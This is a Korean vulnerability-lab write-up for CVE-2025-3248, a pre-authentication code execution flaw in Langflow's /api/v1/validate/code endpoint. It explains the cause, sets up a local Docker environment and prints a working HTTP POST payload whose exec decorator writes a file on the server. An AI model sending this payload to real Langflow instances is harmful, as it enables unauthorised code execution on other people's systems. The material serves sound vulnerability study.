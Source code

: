 # Langflow `validate/code` API Pre-Auth Remote Code Execution (CVE-2025-3248)

### 제출 정보
- Github Repo : https://github.com/breakman/kr-vulhub/tree/langflow/langflow/CVE-2025-3248
- Pull Requst : https://github.com/gunh0/kr-vulhub/pull/230
## 개요 
Langflow 는 에이전트 기반 AI 워크플로우를 구축하기 위한 인기 있는 오픈소스 도구로, python 기반 웹 인퍼페이스를 통해 AI 에이전트와 파이프라인을 시작적으로 구성할 수 있도록 한다.

Langflow 1.3.0 이하 버전에서 발생하는 **원격 코드 실행(RCE)** 취약점인 CVE-2025-3248 이 존재한다.

### 참고문헌
- https://github.com/vulhub/vulhub/blob/master/langflow/CVE-2025-3248

### 취약점
- (`/api/v1/validate/code`) 엔드포인트에서 발생.

    해당 엔드포인트는 사용자로부터 제출된 Python 코드를 ast 모듈로 파싱후 exec 를 사용해 함수 정의를 실행함으로써 유효성을 검증함.
- Python 함수 정의는 decorator 인자와 defualt 인자에 포함된 표현식을 정의 시점에 실행
- 해당 인자에 악성 코드를 삽입해 exec() 과 함께 실행하여 RCE를 일으킬 수 있음.

## 환경 구성
```bash
git clone --depth 1 https://github.com/
cd vulhub/langflow/CVE-2025-3248
docker compose up -d
```
서버가 시작된 이후 `http://localhost:7860` 로 접속할 수 있다.
![](0.png)

## 취약점 재현
`/api/v1/validate/code` 엔드포인트에 악성 Python 함수 정의를 포함한 POST 요청을 보내야한다.

다음은 서버에서 임의의 파일을 열어 읽고 쓸 수 있는 예시이다.
```
POST /api/v1/validate/code HTTP/1.1
Host: localhost:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 133

{"code": "@exec(\"raise Exception(__import__('builtins').open('/tmp/hacked.txt','w').write('you hacked!'))\")\ndef foo():\n  pass"}
```
![](1.png)
![](2.png)